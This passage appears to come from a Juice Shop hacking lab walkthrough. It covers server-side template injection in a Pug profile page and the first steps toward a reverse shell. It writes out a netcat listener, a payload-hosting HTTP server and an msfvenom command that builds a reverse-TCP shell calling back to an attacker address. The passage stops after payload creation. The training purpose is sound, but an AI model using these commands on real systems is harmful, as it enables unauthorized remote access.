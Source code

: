 Maybe some of the coupons still work ?

### Optional: RCE into Reverse shell

Once again, Juice-shop assumed that you did a lot of reconnaissance on the website in order to detect and list all the anomalies. But for the simplicity of this training, we will focus on the next steps of the cyber kill chain and get the reconnaissance as already done. 

Doing some recon on the website, you should have noticed that [http://192.168.3.12/profile](http://192.168.3.12/profile) (while connected to an account), is not an Angular JS page. This page uses Pug, a Template engine, which is perfect for some SSTi (Server Side Template Injection).

Let's play with the username field:

![](./Images/Image23.png)

You see your username in `\test` format, but doing some SSTi, you can change its format. Try with `#{test}` instead of `test`, the `\` should disappear ! You have just injected some Template into the page. 

Like for XSS, we can potentially run some code on the server itself, this is called RCE for Remote Code Execution. This is done for example by the lack of encapsulation of JavaScript, resulting into the capacity of loading libraries that can allow you to spawn a process that will run your commands.

Let's start two terminal in Eve docker container. In one of them, we run a python http server, and in the second one, we run a netcat command. This classic setup is useful for sending a payload to a remote server that we host locally using the python http server, using netcat to discuss with the sent payload.

* Python http server command: `python3 -m http.server 80`
* netcat command: `nc -lnvp 4444`

Now, we will open a third terminal in Eve docker container and we will craft a payload called a Reverse Shell. Because we have firewalls that usually allow output traffic and filter input traffic, we try to put a shell that will initiate the connection **from** the victim **to** the attacker in order to bypass the firewall rules. In our case, we will craft the Reverse shell using `msfvenom` like so:
```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.4.3 LPORT=4444 -f elf -o shell
```
